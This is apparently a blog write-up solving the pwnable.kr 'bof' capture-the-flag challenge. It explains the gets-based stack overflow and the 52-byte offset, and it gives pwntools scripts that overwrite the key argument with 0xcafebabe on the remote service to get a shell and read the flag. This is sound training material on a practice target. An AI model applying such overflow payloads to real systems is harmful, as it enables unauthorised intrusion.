


<div class="challenge-hero" markdown="0">
  
  <div class="challenge-hero-copy">
    <p class="challenge-eyebrow">Toddler's Bottle · Level 3</p>
    <p class="challenge-prompt">Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?</p>
    
  </div>
</div>

**bof** is the first real stack smash in Toddler's Bottle. No ROP gadgets — just `gets`, a local buffer, and a function argument you were never meant to touch.

<aside class="callout callout-info">
<strong>Approach</strong>
Overflow <code>overflowme</code> past saved EBP and the return address until you land on the <code>key</code> parameter. Write the little-endian magic constant the comparison expects, then talk to the spawned shell. Exact payload bytes and flag stay offline.
</aside>

## Challenge card

| | |
| --- | --- |
| **Site** | [pwnable.kr](https://pwnable.kr) |
| **Category** | Toddler's Bottle |
| **Hint** | *Nana told me that buffer overflow…* |
| **Service** | TCP to `pwnable.kr` (port on the challenge page) |
| **Download** | `bof` / `bof.c` from the site |
| **Idea** | `gets` → smash stack → overwrite `key` |

Unlike `fd` / `collision`, this one listens on the network. Smash locally against the binary if you want, then hit the remote with the same payload.

## Source walkthrough

```c
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);          // smash me!
    if (key == 0xcafebabe) {
        system("/bin/sh");
    } else {
        printf("Nah..\n");
    }
}

int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

`main` calls `func(0xdeadbeef)`. Inside `func`, `gets` reads unbounded input into a 32-byte stack buffer. After the read, the code checks whether **`key`** equals `0xcafebabe`. Change that stack slot and you get a shell.

<aside class="callout callout-warn">
<strong>Why gets is fatal</strong>
No length argument. Whatever you send keeps writing up the stack — locals, saved frame pointer, return address, and finally the incoming arguments.
</aside>

## Stack layout (the whole game)

On 32-bit x86, a typical frame for `func` looks like this (high addresses at the top):

```text
[  ebp + 0x08  ]  <- key parameter (4 bytes)   ← TARGET
[  ebp + 0x04  ]  <- saved EIP / return address (4 bytes)
[  ebp         ]  <- saved EBP (4 bytes)
[  ebp - 0x2c  ]  <- start of overflowme        ← gets writes here
```

Disassembly confirms the offsets the compiler actually picked:

```text
lea  eax, [ebp-0x2c]          ; &overflowme
call gets
cmp  DWORD PTR [ebp+0x8], 0xcafebabe
```



Distance from the start of the buffer to `key`:

```text
(ebp + 0x8) - (ebp - 0x2c)  =  0x2c + 0x8  =  0x34  =  52 bytes
```

Same count from the diagram: **`0x2c` buffer span to saved EBP + 4 (saved EBP) + 4 (saved EIP) = 52**, then the next four bytes are `key`.

<aside class="callout callout-tip">
<strong>Sanity check in gdb</strong>
Break after <code>gets</code>, dump words around <code>$ebp</code>, and watch your cyclic pattern climb into <code>[ebp+0x8]</code>. When that slot shows your marker, the padding length is correct.
</aside>

## Payload shape

```text
[ 52 bytes of junk ][ 4-byte little-endian 0xcafebabe ]
```

With pwntools that is:

```python
from pwn import *

padding_len = 0x2c + 4 + 4   # 52 — reach key
payload = b"A" * padding_len + p32(0xCAFEBABE)
```

`p32` emits `\xbe\xba\xfe\xca` — little-endian for `0xcafebabe`.

You do **not** need a valid return address for this challenge: execution continues into the `cmp` / `system("/bin/sh")` path inside `func` after `gets` returns. Overwriting saved EIP with `'A'`s is fine as long as you never `ret` before the check (you don't).

## Remote exploit sketch

Connect to the service from the challenge page, send the payload, then drive the shell:

```python
from pwn import *

context.log_level = "info"

padding_len = 0x2c + 4 + 4
payload = b"A" * padding_len + p32(0xCAFEBABE)

conn = remote("pwnable.kr", /* port from challenge page */)
conn.sendline(payload)
conn.sendline(b"cat flag")
print(conn.recvall(timeout=2))
```

Or keep an interactive session (`conn.interactive()`) and type `cat flag` yourself.

<aside class="callout callout-info">
<strong>EOF gotcha</strong>
If you one-shot a pipe and stdin closes, the spawned shell may die immediately. Keep the connection open (interactive mode, or <code>; cat</code> style) long enough to read the flag.
</aside>

<details class="spoiler">
<summary>Spoiler — full script shape (port + flag omitted)</summary>

```python
from pwn import *

context.log_level = "info"
payload = b"A" * (0x2c + 4 + 4) + p32(0xCAFEBABE)

conn = remote("pwnable.kr", PORT)  # PORT from the challenge card
conn.sendline(payload)
conn.sendline(b"cat flag")
print(conn.recvall(timeout=2).decode(errors="ignore"))
```

</details>



## Flag

<aside class="callout callout-warn">
<strong>Redacted</strong>
Not published. Land the shell on the remote and <code>cat flag</code> yourself.
</aside>

## What this teaches

- **`gets` is indefensible** — unbounded stack writes are still lesson #1 for a reason.
- **Arguments live above the frame** — on 32-bit cdecl, `ebp+8` is the first parameter.
- **Measure, don't guess** — `lea … [ebp-0x2c]` plus `cmp [ebp+0x8]` gives the exact padding.
- **Endianness again** — multi-byte constants on the wire are little-endian (`p32`).
- **Shells need a live stdin** — closing the socket too early looks like a failed exploit.

## Series so far

1. [fd](post.html?slug=pwnable-kr-fd) — force `read` onto stdin  
2. [collision](post.html?slug=pwnable-kr-collision) — five ints that sum to a checksum  
3. **bof** — overwrite a stack argument through `gets`

<div class="challenge-hero challenge-hero-footer" markdown="0">
  
  <div class="challenge-hero-copy">
    <p class="challenge-eyebrow">Official art · pwnable.kr</p>
    <p class="challenge-prompt">Buffer smashed. More bottles ahead.</p>
    
  </div>
</div>
